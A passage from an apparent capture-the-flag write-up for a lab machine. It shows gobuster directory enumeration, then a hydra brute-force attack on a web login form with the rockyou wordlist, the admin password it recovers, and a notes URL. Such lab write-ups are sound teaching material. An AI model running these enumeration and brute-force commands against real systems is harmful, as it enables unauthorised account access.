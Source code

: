List of the hidden in the server using `gobuster`.

```
### Web Enumeration (80) ############################
+] Files and directories
gobuster dir -k -u http://10.10.10.43:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
===============================================================
/department           (Status: 301) [Size: 315] [--> http://10.10.10.43/department/]
```

Login page at `/department`.

![](images/5.png)

I enum more hidden file in uri `/department` but there are no interested file.

Try to brute force username password with hydra using `rockyou.txt` directory.

```
┌──(Hades㉿10.10.14.5)-[1.9:26.2]~/scripting
└─$ hydra -l admin -P /home/kali/directory/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=admin&password=^PASS^:Invalid Password!'
<snip>
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
```

After login to department with `admin:1q2w3e4r5t`, I have a note at the url `http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt`

![](images/6.png)
